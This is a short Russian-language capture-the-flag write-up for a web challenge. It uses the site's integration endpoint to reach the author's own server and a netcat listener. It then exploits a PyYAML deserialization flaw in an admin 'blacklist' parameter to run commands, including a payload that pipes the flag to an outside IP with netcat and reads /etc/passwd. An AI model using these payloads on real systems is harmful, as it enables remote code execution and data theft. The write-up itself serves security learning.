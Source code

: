 1. Смотрим, какие проверки делает сайт и направляем его на наш сервер http://b121.ctf2019.rocks/integration/89.163.129.121. 
Смотрим, что он отправляет  {"key": "test_key", "value": "test_value"} и проверяет value. Запускаем  
```
value while true; do echo -e "HTTP/1.1 200 OK\n\n  test_value" | nc -l -v -p 9999 -q 1;done
```
на 89.163.129.121 и получаем 1-й флаг.

2. Видим, что запросы через http://b121.ctf2019.rocks/integration/ на закрытый порт падают с ошибкой из библиотеки urllib3 
питона.

3. Находим адимнку. Проверям как сайт реагирует на параметры в  http://localhost/admin/?blacklist= . Видим, что он падает с 500
ошибкой про несбалансированных кавычках. Поиск по python remote code execution привел к уязвимости в биклиотеке pyyaml. 
Передаем http://localhost/admin/?blacklist=!!python/object/apply:os.system ["sleep 5"] и подтверждаем уязвимость. 
Достаем флаг в http://localhost/admin/?blacklist=!!python/object/apply:os.system [" cat flag | nc 89.163.129.121:9999"]
Находим дополнительные флаги в ./integration.db  и /etc/passwd
